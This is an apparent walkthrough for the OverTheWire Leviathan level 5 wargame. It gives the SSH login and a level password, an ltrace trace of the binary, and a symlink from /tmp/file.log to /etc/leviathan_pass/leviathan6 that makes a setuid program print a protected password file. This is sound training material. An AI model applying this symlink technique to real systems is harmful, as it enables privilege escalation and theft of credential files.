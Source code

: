 # Connection:

ssh leviathan5@leviathan.labs.overthewire.org -p 2223
password: `Tith4cokei`

# Solution:

1. Notice the `leviathan5` executable
2. Execute it
3. It tries to open `/tmp/file.log`
4. Create some dummy `file.log` file in `/tmp`
5. Execute again the `leviathan5` executable
6. It basically reads the file and output it to standard stream, you can run `ltrace` to see such output:

```
fopen("/tmp/file.log", "r")                                               = 0x804b008
fgetc(0x804b008)                                                          = 't'
feof(0x804b008)                                                           = 0
putchar(116, 0x8048720, 0xf7e40890, 0x80486eb)                            = 116
fgetc(0x804b008)                                                          = 'e'
feof(0x804b008)                                                           = 0
putchar(101, 0x8048720, 0xf7e40890, 0x80486eb)                            = 101
fgetc(0x804b008)                                                          = 's'
feof(0x804b008)                                                           = 0
putchar(115, 0x8048720, 0xf7e40890, 0x80486eb)                            = 115
fgetc(0x804b008)                                                          = 't'
feof(0x804b008)                                                           = 0
putchar(116, 0x8048720, 0xf7e40890, 0x80486eb)                            = 116
fgetc(0x804b008)                                                          = 't'
feof(0x804b008)                                                           = 0
putchar(116, 0x8048720, 0xf7e40890, 0x80486eb)                            = 116
fgetc(0x804b008)                                                          = 'e'
feof(0x804b008)                                                           = 0
putchar(101, 0x8048720, 0xf7e40890, 0x80486eb)                            = 101
fgetc(0x804b008)                                                          = 's'
feof(0x804b008)                                                           = 0
putchar(115, 0x8048720, 0xf7e40890, 0x80486eb)                            = 115
fgetc(0x804b008)                                                          = 't'
feof(0x804b008)                                                           = 0
putchar(116, 0x8048720, 0xf7e40890, 0x80486eb)                            = 116
fgetc(0x804b008)                                                          = '\n'
feof(0x804b008)                                                           = 0
putchar(10, 0x8048720, 0xf7e40890, 0x80486ebtesttest
)                             = 10
fgetc(0x804b008)                                                          = '\377'
feof(0x804b008)                                                           = 1
fclose(0x804b008)                                                         = 0
getuid()                                                                  = 12005
setuid(12005)                                                             = 0
unlink("/tmp/file.log")
```

It reads one character at the time, check if we hit the EOF and write it to standard out.

7. Let's just create symlink to /etc/leviathan_pass/leviathan6: `ln -s /etc/leviathan_pass/leviathan6 file.log`
8. Execute `./leviathan5`
9. Get flag
